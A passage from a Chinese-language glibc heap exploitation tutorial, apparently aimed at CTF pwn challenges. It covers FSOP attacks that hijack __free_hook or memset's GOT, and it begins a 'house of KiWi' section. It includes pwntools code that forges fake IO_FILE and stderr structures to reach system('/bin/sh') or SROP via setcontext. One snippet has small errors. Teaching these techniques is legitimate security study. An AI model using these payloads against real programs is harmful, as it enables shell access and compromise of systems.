 这段代码我们在2.24下的FSOP中已经分析过了，那里提到了高版本使用了malloc，所以会导致第二种方法失效，但是这里提出了一种对于高版本的攻击方法

在这段代码中我们先后执行了 malloc memcpy free三个函数，很容易想到，我们先malloc一个堆块，堆块中有free_hook相关内容，之后我们在memcpy中进行赋值随后进行free，那我们就可以修改freehook为system从而进行getshell

比如说，先利用`tcache stashing unlink attack`或者劫持`TLS`中的`tcache pointer`等方式，在`0xa0`的`tcache bin`中伪造一个`__free_hook - 0x10`在链首，然后伪造`IO_FILE`如下：

```python
fake_IO_FILE = p64(0)*3 + p64(0xffffffffffffffff) # set _IO_write_ptr
# fp->_IO_write_ptr - fp->_IO_write_base >= _IO_buf_end - _IO_buf_base
fake_IO_FILE += p64(0) + p64(fake_IO_FILE_addr + 0xe0) + p64(fake_IO_FILE_addr + 0xf8)
# set _IO_buf_base & _IO_buf_end   old_blen = 0x18
fake_IO_FILE = payload.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(get_IO_str_jumps())
fake_IO_FILE += b'/bin/sh\x00' + p64(0) + p64(libc.sym['system']
```

最后通过exit触发，就可以getshell，但是在2.34以及以后的，hook就被删除了，但是我们仍然可以利用memset，那我们就可以来改写memset 的got表

先在`0xa0`的`tcache`链表头伪造一个`memset_got_addr`的地址，并伪造`IO_FILE`如下：

```python
# magic_gadget：mov rdx, rbx ; mov rsi, r12 ; call qword ptr [r14 + 0x38]
fake_stderr = p64(0)*3 + p64(0xffffffffffffffff) # _IO_write_ptr
fake_stderr += p64(0) + p64(fake_stderr_addr+0xf0) + p64(fake_stderr_addr+0x108)
fake_stderr = fake_stderr.ljust(0x78, b'\x00')
fake_stderr += p64(libc.sym['_IO_stdfile_2_lock']) # _lock
fake_stderr = fake_stderr.ljust(0x90, b'\x00') # srop
fake_stderr += p64(rop_address + 0x10) + p64(ret_addr) # rsp rip
fake_stderr = fake_stderr.ljust(0xc8, b'\x00')
fake_stderr += p64(libc.sym['_IO_str_jumps'] - 0x20)
fake_stderr += p64(0) + p64(0x21)
fake_stderr += p64(magic_gadget) + p64(0) # r14 r14+8
fake_stderr += p64(0) + p64(0x21) + p64(0)*3
fake_stderr += p64(libc.sym['setcontext']+61) # r14 + 0x38
```

## house of KiWi

主要提供了一种在程序中触发IO的思路，并且可以控制rdx，可以很方便的进行orw

```c
// assert.h
# if defined __cplusplus
#  define assert(expr)                            \
     (static_cast <bool> (expr)                        \
      ? void (0)                            \
      : __assert_fail (#expr, __FILE__, __LINE__, __ASSERT_FUNCTION))
# elif !defined __GNUC__ || defined __STRICT_ANSI__
#  define assert(expr)                            \
    ((expr)                                \
     ? __ASSERT_VOID_CAST (0)                        \
     : __assert_fail (#expr, __FILE__, __LINE__, __ASSERT_FUNCTION))
# else
#  define assert(expr)                            \
  ((void) sizeof ((expr) ? 1 : 0), __extension__ ({            \
      if (expr)                                \
        ; /* empty */                            \
      else                                \
        __assert_fail (#expr, __FILE__, __LINE__, __ASSERT_FUNCTION);    \
    }))
# endif
 
// malloc.c ( #include <assert.h> )
# define __assert_fail(assertion, file, line, function)            \
     __malloc_assert(assertion, file, line, function)
```